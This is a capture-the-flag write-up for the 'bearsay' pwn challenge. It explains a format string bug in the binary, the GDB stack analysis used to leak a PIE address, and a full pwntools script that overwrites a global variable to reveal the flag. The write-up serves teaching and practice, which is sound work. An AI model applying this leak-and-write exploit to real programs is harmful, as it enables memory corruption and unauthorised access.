

## pwn/bearsay

solved by vulnx https://vulnx.github.io/

## challenge description

bearsay(1)

bearsay - configurable speaking/thinking bear (and a bit more)

nc chal.amt.rs 1338



### Analysis

The entire program is relatively large to reverse engineer (although not difficult at all), but the crux is here:

```c
      iVar2 = strcmp("flag",&buffer);
      if (iVar2 != 0) break;
      if (is_mother_bear != 0xbad0bad) {
        uVar1 = rand();
        printf("ANGRY BEAR %s\n",*(undefined8 *)(bears + (ulong)(uVar1 & 3) * 8));
                    /* WARNING: Subroutine does not return */
        exit(1);
      }
      __stream = fopen("./flag.txt","r");
      fgets(flag,0x1000,__stream);
      fclose(__stream);
      box(0x7c,0x2d,2,flag);
      puts("|\n|\n|");
      uVar1 = rand();
      puts(*(char **)(bears + (ulong)(uVar1 & 3) * 8));
    }
```

if we give "flag" as the input the program will open `./flag.txt` and print it out, provided `is_mother_bear` = 0xbad0bad. The only problem is, `is_mother_bear` is explicitly defined as 0 and moreover it is never changed throughout the entire execution.

### Vulnerability

Honestly I did not reverse engineer the entire program and couldn't find the vulnerability in the first attempt and almost gave up. 

Luckily my teammate [makider](https://makider.me/) did not give up and tested the program for format string vulnerability, and it turns out, that was the intented bug. So I took the efforts and saw the `box()` function again and found that it was hiding between several `putchar()` calls:

```c
  putchar(0x20);
  printf(param_4); // <- vulnerability
  putchar(0x20);
  putchar((int)param_1);
  putchar(10);
```

Format string vulnerabilities are super helpful because they allow both arbitrary read and arbitrary write.

### Exploit

From now the plan is straightforward, use fmt vuln to write 0xbad0bad to `is_mother_bear`, but if you look at the protections:

```console
$ checksec chal
[*] '/home/vulnx/Games/CTFs/amateurs/pwn/bearsay/bearsay/chal'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'./lib'
```

`PIE` is enabled, which means the memory address of `is_mother_bear` will be randomized on every execution.

This is not a problem for us since we can utilise the fmt vuln to get a binary leak and use that leak to calculate the actual address of `is_mother_bear` at runtime since the interal offsets won't be changing.

If you set a breakpoint in GDB just before the `printf(foo)` call and look at the stack, here is how it will look:

```
pwndbg> b * box +188
Breakpoint 1 at 0x131b
pwndbg> r
Starting program: /home/vulnx/Games/CTFs/amateurs/pwn/bearsay/bearsay/chal
🧸 say: AAAABBBB
************
*
Breakpoint 1, 0x000055555555531b in box ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
...
pwndbg> stack 50
00:0000│ rsp 0x7fffffffb9b0 ◂— 0x0
01:0008│-038 0x7fffffffb9b8 —▸ 0x7fffffffba30 ◂— 'AAAABBBB'
02:0010│-030 0x7fffffffb9c0 ◂— 0xf7ffd040
03:0018│-028 0x7fffffffb9c8 ◂— 0x7f2af7c7f42a
04:0020│-020 0x7fffffffb9d0 ◂— 0x0
05:0028│-018 0x7fffffffb9d8 ◂— 0xffffda40
06:0030│-010 0x7fffffffb9e0 ◂— 0x8ffffdb58
07:0038│-008 0x7fffffffb9e8 ◂— 0x61ac0e76eaaf3100
08:0040│ rbp 0x7fffffffb9f0 —▸ 0x7fffffffda40 ◂— 0x1
09:0048│+008 0x7fffffffb9f8 —▸ 0x555555555678 (main+702) ◂— mov eax, dword ptr [rbp - 0x202c]
0a:0050│+010 0x7fffffffba00 —▸ 0x7fffffffdb58 —▸ 0x7fffffffdedc ◂— '/home/vulnx/Games/CTFs/amateurs/pwn/bearsay/bearsay/chal'
0b:0058│+018 0x7fffffffba08 ◂— 0x100000000
0c:0060│+020 0x7fffffffba10 ◂— 0x800000000
0d:0068│+028 0x7fffffffba18 —▸ 0x7fffffffba38 ◂— 0x0
0e:0070│+030 0x7fffffffba20 ◂— 0x0
0f:0078│+038 0x7fffffffba28 ◂— 0x0
10:0080│ rdi 0x7fffffffba30 ◂— 'AAAABBBB'
11:0088│+048 0x7fffffffba38 ◂— 0x0
... ↓        32 skipped
```

We notice 2 important things from this stack dump:

1. We have a binary address at RBP+0x8 : `0x7fffffffb9f8 —▸ 0x555555555678`

2. Our input is at RBP+0x40 : `0x7fffffffba30 ◂— 'AAAABBBB'`

We can easily calculate at which indexes can we find these by:

`index = ((<stack_address> - RSP)/8)+6`

In this case:

```
pwndbg> p/d ((0x7fffffffb9f8-0x7fffffffb9b0)/8)+6
$1 = 15
pwndbg> p/d ((0x7fffffffba30-0x7fffffffb9b0)/8)+6
$2 = 22
```

- we can get binary leak via: `%15$p`

- and get the start of our input via: `%22$p`

Also by doing this:

```
pwndbg> vmmap 0x555555555678
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
    0x555555554000     0x555555555000 r--p     1000      0 /home/vulnx/Games/CTFs/amateurs/pwn/bearsay/bearsay/chal
►   0x555555555000     0x555555556000 r-xp     1000   1000 /home/vulnx/Games/CTFs/amateurs/pwn/bearsay/bearsay/chal +0x678
    0x555555556000     0x555555557000 r--p     1000   2000 /home/vulnx/Games/CTFs/amateurs/pwn/bearsay/bearsay/chal
pwndbg> p/x 0x555555555678-0x555555554000
$3 = 0x1678
```

we can find out that the binary leak is 0x1678 bytes ahead of the actual binary base so we know what to subtract :D


Once we have the correct binary base, we have the correct address of `is_mother_bear`, now we can simply use pwntools `fmtstr_payload` function to set `is_mother_bear` to 0xbad0bad via:

```python
payload = fmtstr_payload(22, {
    is_mother_bear: 0xbad0bad
}, write_size='short')
```

we then send this payload and get the flag.

Here is the full solve script:

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chal", checksec=False)

context.binary = exe
context.terminal = [ 'tmux', 'splitw', '-h' ]
gdbscript='''
b * box+188
c
'''
def conn():
    if args.LOCAL:
        r = process([exe.path])
    else:
        r = remote("chal.amt.rs", 1338)

    return r


def main():
    r = conn()

    # good luck pwning :)
    # gdb.attach(r, gdbscript=gdbscript)
    r.sendlineafter(b'say: ', b'%15$p')
    r.recvuntil(b'0x')
    leak = int( r.recvline().split(b' ')[0], 16 )
    log.info('leak @ %s' % hex(leak))
    exe.address = leak - 0x1678
    log.success('exe.address @ %s' % hex(exe.address))
    is_mother_bear = exe.sym.is_mother_bear
    log.info('is_mother_bear @ %s' % hex(is_mother_bear))
    payload = fmtstr_payload(22, {
        is_mother_bear: 0xbad0bad
    }, write_size='short')
    r.sendlineafter(b'say: ', payload)
    r.sendlineafter(b'say: ', b'flag')
    print(r.recvline_contains(b'amateursCTF').decode())
    r.close()


if __name__ == "__main__":
    main()
```

```console
$ python solve.py
[+] Opening connection to chal.amt.rs on port 1338: Done
[*] leak @ 0x56286eb81678
[+] exe.address @ 0x56286eb80000
[*] is_mother_bear @ 0x56286eb84044
| amateursCTF{bearsay_mooooooooooooooooooo?} |
[*] Closed connection to chal.amt.rs port 1338
```

### Flag

`amateursCTF{bearsay_mooooooooooooooooooo?}`